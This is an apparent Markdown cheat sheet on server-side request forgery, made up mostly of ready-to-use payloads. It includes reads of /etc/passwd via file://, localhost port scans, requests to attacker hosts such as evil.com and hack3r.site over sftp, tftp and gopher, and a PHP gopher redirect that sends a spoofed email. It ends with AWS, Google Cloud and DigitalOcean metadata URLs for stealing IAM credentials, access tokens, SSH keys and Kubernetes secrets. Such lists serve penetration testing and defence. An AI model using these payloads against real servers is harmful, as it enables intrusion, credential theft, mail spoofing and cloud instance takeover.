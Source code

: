# Server-Side Request Forgery #

> Two types of SSRF
- Basic
- Blind

## Basic SSRF ##

As mentioned It displays response to attacker, so after the server fetches the URL asked by attacker for him, it will send the response back to attacker



## Blind SSRF ##

To demonstrate impact with this kind of SSRF is to run an Internal IP and PORT scan
The impact in the case of Blind SSRF is limited.

## What we can do with SSRF
1. SSRF to reflected XSS

    Example - http://localhost:4567/?url=http://brutelogic.com.br/poc.svg      
    
    `http://brutelogic.com.br/poc.svg -> simple alert`    
    `https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri= -> simple ssrf`    
    
    `https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg`
    

2. Testing URL schemas  

    First thing to do when we find an SSRF is to test all the wrapper which are working

   file:///    
   dict://     
   sftp://     
   ldap://     
   tftp://     
   gopher://     


### File ###     
Allows an attacker to fetch the content of a file on the server     

`file://path/to/file`    
`file:///etc/passwd`     
`file://\/\/etc/passwd`    
`ssrf.php?url=file:///etc/passwd`    


### HTTP ###    
Allows an attacker to fetch any content from the web, it can also be used to scan ports.

`ssrf.php?url=http://127.0.0.1:22`     
`ssrf.php?url=http://127.0.0.1:80`   
`ssrf.php?url=http://127.0.0.1:443`    


> The following URL scheme can be used to probe the network   

### DICT ###    
The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:    

`dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>`   
`ssrf.php?url=dict://attacker:11111/`   


### SFTP ###    
A network protocol used for secure file transfer over secure shell

`ssrf.php?url=sftp://evil.com:11111/`    

### TFTP ###   
Trivial File Transfer Protocol, works over UDP

`ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET`    


### LDAP ###     
Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

`ssrf.php?url=ldap://localhost:11211/%0astats%0aquit`    


### Gopher ###    




### Gopher HTTP ###   

```   
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body    

```


### Gopher SMTP - Back connect to 1337 ###

```
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>

Now query it.
https://example.com/?q=http://evil.com/redirect.php.   

```


### Gopher SMTP - send a mail ###   

```
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>    

```


### Netdoc ###     
Wrapper for Java when your payloads struggle with "\n" and "\r" characters.

`ssrf.php?url=gopher://127.0.0.1:4242/DATA`     



3. SSRF URL for Cloud Instances     

#### AMAZON ####     

If you find an SSRF in Amazon Could, Amazon expose an internal service every EC2 instance can query for instance metadata about the host. If you found an SSRF vulnerability that runs on EC2, try requesting :   

```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
```  

This will give our juicy information like Aws keys, ssh keys and more  



#### Google Cloud ####          


```
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json   
```      


Google is shutting down support for usage of the v1 metadata service on January 15.  Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"       


```
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```
Further exploiting this can lead to instances takeover. 



Google allows recursive pulls - 
`http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true`   


Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)  
```
http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
```      



Interesting files to pull out:       

* SSH Public Key `http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json`   
* Get Access Token  `http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token`    
* Kubernetes Key   `http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json`        





#### Digital Ocean ####        


```
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

All in one request:
curl http://169.254.169.254/metadata/v1.json | jq
```   





